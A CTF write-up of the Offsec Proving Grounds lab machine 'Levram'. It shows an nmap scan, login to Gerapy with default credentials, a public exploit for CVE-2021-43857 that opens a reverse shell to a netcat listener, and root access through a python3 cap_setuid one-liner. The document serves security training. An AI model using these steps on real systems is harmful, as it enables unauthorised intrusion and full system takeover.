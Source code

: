 ```yaml
---
title: "Proving grounds Play: Levram"
layout: post
date: 2023-10-07 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9bc8f013f855df95cd9fbb615a01e74 (ECDSA)
|_  256 53d97f3d228afd5798fe6b1a4cac7967 (ED25519)
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Sat, 07 Oct 2023 11:16:52 GMT
|     Server: WSGIServer/0.2 CPython/3.10.6
|     Content-Type: text/html
|     Content-Length: 9979
|_    Vary: Origin
```

## 8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6

http://192.168.211.24:8000/#/login

![img](/assets/images/CTF/Proving_Grounds/Levram/web.png)

The application uses default credentials `admin:admin` and it is vulnerable to [Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50640). 

> **Note:**
>
> If the application doesn't have any projects the exploit will throw an error, a project must exist for the exploit to work properly.

## Initial Foothold

Login to the application using the credentials and create a new project. Now run the exploit and ensure the netcat listener is running.

**Exploitation**

```sh
naveenj@hackerspace:|07:21|~/proving_grounds/Levram/exploit$ python2 exploit.py -t 192.168.211.24 -p 8000 -L 192.168.45.193 -P 4444
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: test
[*] Getting the ID of the project to build the URL
('[*] Found ID of the project: ', 1)
[*] Setting up a netcat listener
listening on [any] 4444 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
```

**Reverse Shell Obtained**

```sh
naveenj@hackerspace:|07:20|~/proving_grounds/Levram/exploit$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.193] from (UNKNOWN) [192.168.211.24] 42252
bash: cannot set terminal process group (845): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$
```

**Initial Foothold Obtained**

## Privilege Escalation

Check the extended capabilities in the system.

```sh
app@ubuntu:~/gerapy$ getcap -r / 2/dev/null    #get the extended capabilites
/usr/bin/python3.10 cap_setuid=ep   #exploitable
```

### Exploitation

```sh
app@ubuntu:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
uid=0(root) gid=1000(app) groups=1000(app)
```

**Root Obtained**

## References

- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example)
- [https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).